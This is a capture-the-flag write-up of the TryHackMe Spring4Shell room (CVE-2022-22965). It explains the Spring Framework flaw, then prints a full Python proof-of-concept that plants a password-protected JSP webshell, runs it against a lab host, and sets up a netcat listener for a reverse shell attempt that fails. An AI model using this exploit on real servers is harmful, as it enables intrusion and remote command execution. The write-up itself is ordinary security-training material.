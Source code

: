 ```yaml
---
description: Exploiting the Java Spring Framework - https://tryhackme.com/room/spring4shell
---
```


# Spring4Shell: CVE-2022-22965

![](<../../../.gitbook/assets/image (26) (1).png>)

## Background

In late March 2022, two remote command execution vulnerabilities in the Java [Spring framework](https://spring.io) were made public. The first of these vulnerabilities affects a component of the framework called "Spring Cloud Functions". The second, arguably more serious vulnerability, affects a component in  "Spring Core" —  the heart of the framework — thus significantly increasing the vulnerability's potential impact and earning it the name "Spring4Shell" (a play on [Log4Shell](https://tryhackme.com/room/solar), the name of a brutal vulnerability disclosed at the end of 2021).

Spring4Shell was originally released as an 0-day in a now-deleted thread of Tweets. It was quickly identified as a bypass of the patch for [CVE-2010-1622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1622) — a vulnerability in earlier versions of the Spring Framework which allowed attackers to obtain remote command execution by abusing the way in which Spring handles data sent in HTTP requests. In short, the vulnerability allows attackers to upload a "webshell" (a piece of code which accepts commands from the attacker that the webserver is then tricked into executing) to the vulnerable server, achieving remote command execution.\


## How does it work?

To understand Spring4Shell, it is important that we understand CVE-2010-1622. Spring MVC (**M**odel-**V**iew-**C**ontroller) is part of the Spring Framework which makes it easy to develop web applications following the MVC design pattern. One of the features of Spring MVC is that it automatically instantiates and populates an object of a specified class when a request is made based on the parameters sent to the endpoint. In simple terms, this could be abused to overwrite important attributes of the parent class, resulting in remote code execution.

Spring4Shell works along similar lines, bypassing the mitigations that were added to patch CVE-2010-1622. The majority of the exploits for the Spring4Shell vulnerability operate by forcing the application to write a malicious `.jsp` file (effectively plaintext Java which Tomcat can execute — much like a PHP webserver would execute files with a `.php` extension) to the webserver. This webshell can then be executed to gain remote command execution over the target.\


Fortunately, despite how commonly used the Spring Framework is, the conditions in which the vulnerability can be exploited are actually fairly limited.\


## Limitations

The Spring4Shell vulnerability affects Spring Core before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19, running on a version of the **J**ava **D**evelopment **K**it (JDK) greater than or equal to 9. The publicly available exploits currently available only work on applications deployed to Apache Tomcat as WARs; however, the Spring Framework maintainers have stated that they believe there may be other ways to exploit the vulnerability.

Current conditions for vulnerability (as stated in [Spring's announcement of the vulnerability](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)) can be summarised as follows:

* JDK 9+
* A vulnerable version of the Spring Framework (<5.2 | 5.2.0-19 | 5.3.0-17)\

* Apache Tomcat as a server for the Spring application, packaged as a WAR
* A dependency on the `spring-webmvc` and/or `spring-webflux` components of the Spring Framework\


It is worth noting, however, that these may change over time as other ways to exploit the vulnerability are discovered.

## Exploitation

{% hint style="danger" %}
You should _always_ review unknown exploits before running them.
{% endhint %}

Using this Proof of Concept Python Script:

{% code title="exploit.py" %}
```python
import requests
import argparse
from urllib.parse import urljoin

def exploit(url, filename, password, directory):
    headers = {"suffix":"%><!--//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"
    }

    data = f"class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22{password}%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/{directory}&class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="


    try:
        requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, f"{filename}.jsp")
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"Shell Uploaded Successfully!\nYour shell can be found at: {shellurl}?pwd={password}&cmd=whoami")
        else:
            print("Exploit failed to upload")
    except Exception as e:
        print(e)
        pass




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Spring4Shell RCE Proof of Concept')
    parser.add_argument('url', help='Target URL')
    parser.add_argument("-f","--filename", help="Name of the file to upload (Default tomcatwar.jsp)", default="tomcatwar.jsp")
    parser.add_argument("-p","--password", help="Password to protect the shell with (Default: thm)", default="thm")
    parser.add_argument("-d","--directory", help="The upload path for the file (Default: ROOT)", default="ROOT")
    args = parser.parse_args()
    exploit(args.url, args.filename.split(".")[0], args.password, args.directory)
```
{% endcode %}

We can attack a vulnerable web server

![](<../../../.gitbook/assets/image (12).png>)

Lets look at the source code `ctrl + u`

```html
<!DOCTYPE HTML>
<html>
    <head> 
        <title>Vulnerable</title>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <script src="/assets/js/font-awesome.js"></script>
        <link rel="icon" type="image/png" href="/assets/favicon.png" />
        <link href="/assets/css/styles.css" rel="stylesheet" />
    </head>
    <body>
        <!-- Masthead-->
        <div class="masthead">
            <div class="masthead-content text-white">
                <div class="container-fluid px-4 px-lg-0">
                    <h1 class="fst-italic lh-1 mb-4">Our Website is Coming Soon</h1>
                    <p class="mb-5">We're working hard to finish the development of this site. Sign up below to receive updates and to be notified when we launch!</p>
                    <form id="contactForm" action="/" method="post">
                        <!-- Email address input-->
                        <div class="row input-group-newsletter">
                            <div class="col"><input class="form-control" required type="email" placeholder="Enter email address..." aria-label="Enter email address..." id="email" name="email" value="" /></div>
                            <div class="col-auto"><button class="btn btn-primary" id="submitButton" type="submit">Notify Me!</button></div>
                        </div>
                    </form>
                </div>
            </div>
        </div>
        <div class="social-icons">
            <div class="d-flex flex-row flex-lg-column justify-content-center align-items-center h-100 mt-3 mt-lg-0">
                <a class="btn btn-dark m-3" target="_blank" href="https://twitter.com/MuirlandOracle"><i class="fab fa-twitter"></i></a>
                <a class="btn btn-dark m-3" target="_blank" href="https://github.com/MuirlandOracle"><i class="fab fa-github"></i></a>
                <a class="btn btn-dark m-3" target="_blank" href="https://www.linkedin.com/in/agcyber/"><i class="fab fa-linkedin"></i></a>
            </div>
        </div>
        <!-- Bootstrap core JS-->
        <script src="/assets/js/bootstrap.bundle.min.js"></script>
    </body>
</html>
```

Specifically we are looking for the "action" of the contact form (the only POST request available to us). This is found on line 18:

`<form id="contactForm" action="/" method="post">`

The action is "`/`", meaning that our target URL will simply be: `http://10.10.151.162/`.

{% hint style="info" %}
_**Note:** the trailing slash is very important here!_
{% endhint %}

## Attack

Lets check the script inputs real quick

![](<../../../.gitbook/assets/image (15) (1).png>)

Looks like running `./exploit.py` [`http://10.10.151.162/`](http://10.10.151.162) should just work

![](<../../../.gitbook/assets/image (6) (1).png>)

And it looks like we have command execution!

![](<../../../.gitbook/assets/image (25) (1).png>)

We are definately root!

![](<../../../.gitbook/assets/image (7).png>)

Lets get a real shell now so we want to get burpsuite open and prepare our shell on our attackbox

On our attack box I am running `nc -lvnp 9001`

![](<../../../.gitbook/assets/image (9).png>)

Time to capture the id request in burp

First enable burp in foxy proxy

![](<../../../.gitbook/assets/image (2).png>)

Then we want to send the request we captured in burp to repeater

![](<../../../.gitbook/assets/image (18) (1).png>)

After a few tries I found the box has python3

![](<../../../.gitbook/assets/image (11) (1).png>)

On our web shell we are going to run a python reverse shell from Pentestmonkey

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

At this point I was having issues with bad characters and getting a reverse/bind shell working. I am not sure if it was a limitation of the environment but I plan on revisiting this.
